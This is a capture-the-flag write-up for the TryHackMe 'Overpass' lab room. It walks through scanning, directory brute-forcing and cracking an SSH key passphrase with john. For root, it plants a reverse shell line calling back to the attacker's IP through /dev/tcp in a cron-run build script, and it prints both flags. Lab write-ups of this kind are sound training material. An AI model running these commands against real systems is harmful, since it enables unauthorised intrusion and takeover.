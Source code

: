 # Overpass

{% embed url="https://tryhackme.com/room/overpass" %}
https://tryhackme.com/room/overpass
{% endembed %}

![](../../.gitbook/assets/Overpass.png)

## Task 1 Overpass

#### Hack the machine and get the flag in user.txt

```
rustscan -a 10.10.39.208 -- -n -sVC
```

![](<../../.gitbook/assets/Screenshot from 2022-04-03 06-39-31.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-03 06-39-46.png>)

```
gobuster dir -u http://10.10.39.200/ \
             -w /usr/share/dirb/wordlists/common.txt \
             -t128
```

![](<../../.gitbook/assets/Screenshot from 2022-04-03 06-45-20.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-03 07-21-40.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-03 07-28-16.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-03 07-28-40.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-03 07-29-40.png>)

```bash
vim i_rsa
chmod 400 id_rsa
ssh2john id_rsa > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-03 07-32-38.png>)

```bash
ssh -i id_rsa james@10.10.39.208 
cat user.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-03 07-34-25.png>)

{% hint style="success" %}
`thm{65c1aaf000506e56996822c6281e6bf7}`
{% endhint %}

#### Escalate your privileges and get the flag in root.txt

```bash
cat /etc/crontab
```

![](<../../.gitbook/assets/Screenshot from 2022-04-03 07-57-27.png>)

```bash
wget http://10.6.9.176/linpeas.sh
bash linpeas.sh
```

![](<../../.gitbook/assets/Screenshot from 2022-04-03 07-48-59.png>)

```bash
vim /etc/hosts
```

![](<../../.gitbook/assets/Screenshot from 2022-04-03 07-51-27.png>)

```bash
mkdir -p /var/www/html/downloads/src/
echo -n 'sh -i >& /dev/tcp/10.6.9.176/4444 0>&1' > /var/www/html/downloads/src/buildscript.sh
```

![](<../../.gitbook/assets/Screenshot from 2022-04-03 07-54-37.png>)

```bash
nc -nvlp 4444
cat /root/root.txt
```

{% hint style="success" %}
`thm{7f336f8c359dbac18d54fdd64ea753bb}`
{% endhint %}

## BTW

![](<../../.gitbook/assets/Screenshot from 2022-04-03 06-46-02.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-03 07-42-09.png>)
